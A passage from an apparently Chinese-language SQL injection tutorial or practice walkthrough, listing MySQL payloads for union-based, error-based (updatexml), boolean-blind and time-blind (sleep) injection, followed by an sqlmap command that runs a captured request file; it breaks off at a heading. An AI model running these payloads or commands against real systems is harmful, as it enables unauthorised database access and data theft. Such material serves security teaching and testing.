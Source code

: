 payload：

    0' union slect database(),user()#
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201216204648398.png)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201216204630210.png)

### 报错注入：

payload：

    and updatexml(0,concat(0x7e,database()),1)#
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F202012162055402.png)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201216205459781.png)

布尔盲注：-
payload：

    admin' and 1=1#
    admin' and 1=2# 
    
        

根据返回的是否为正确的页面，来判断是否存在注入，和注入的语句是否正确。

and 1=1返回的页面：-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201216210711166.png)

and 1=2# 不会返回数据：-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201216210810478.png)

时间盲注：

    admin' and if(length(database())=9,1,sleep(5))#
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201216211203224.png)

### sqlmap：

创建post.txt 文件

使用bp抓包，获取http请求数据包：

\-r ‘文件的路径’

联合注入

sqlmap -r post.txt --dbms=MySQL --random-agent --flush-session --technique=U -v 3

报错注入
